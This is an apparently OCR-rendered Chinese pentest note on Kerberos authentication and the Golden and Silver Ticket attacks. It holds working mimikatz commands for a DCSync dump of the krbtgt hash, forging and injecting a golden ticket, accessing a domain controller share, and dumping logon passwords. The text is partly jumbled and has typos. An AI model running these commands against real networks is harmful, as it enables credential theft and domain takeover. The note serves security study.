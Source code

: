 ```
https://klionsec.github.io/2016/08/10/ntlm-kerberos/
```

```
密码转换为NTLM哈希值，时间戳使用散列加密，并作为身份验证票据（TGT）请求（AS-REQ）中的身份验证器发送给KDC。
域控制器（KDC）检查用户信息（登录限制，组成员身份等）并创建票证授予票证（TGT）。
TGT被加密，签名并交付给用户（AS-REP）。只有域中的Kerberos服务（KRBTGT）才能打开并读取TGT数据。
用户在申请票证授予服务（TGS）票证（TGS-REQ）时向TG提交TGT。DC打开TGT并验证PAC校验和 – 如果DC可以打开票证和校验和签出，则TGT =有效。TGT中的数据被有效地复制来创建TGS票据。
使用目标服务帐户的NTLM密码散列对TGS进行加密并发送给用户（TGS-REP）。
用户在适当的端口上连接到托管服务的服务器并呈现TGS（AP-REQ）。该服务使用其NTLM密码散列打开TGS票证。
```

```
lsadump::dcsync /domain:pentest.com /user:krbtgt

kerberos::purge
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pentest.comc$
```

```
攻击者如何使用Kerberos银票来利用系统
https://adsecurity.org/?p=2011

https://www.feiworks.com/wy/drops/域渗透——Pass%20The%20Ticket.pdf
```

```
Golden Ticket: 伪造TGT,可以获取任何Kerberos服务权限
Silver Ticket: 伪造TGS,只能访问指定的服务
```

```
Golden Ticket 由krbtgt的hash加密
Silver Ticket 由服务账号(通常为计算机账户)Hash加密
```

相关资料：  

```
Golden Ticket在使用的过程需要同域控通信
Silver Ticket在使用的过程不需要同域控通信
用户在适当的端口上连接到托管服务的服务器并呈现TGS（AP-REQ）。该服务使用其NTLM密码散列打开TGS票证。
与域控制器没有AS-REQ / AS-REP（步骤1和2），也没有TGS-REQ / TGS-REP（步骤3和4）通信。由于银票是伪造的TGS，所以没有与域控制器通信。

银票是伪造的Kerberos票证授予服务（TGS）票据，也称为服务票据。
```

#### **Kerberos 身份验证流程**

```
mimikatz log "sekurlsa::logonpasswords"
```
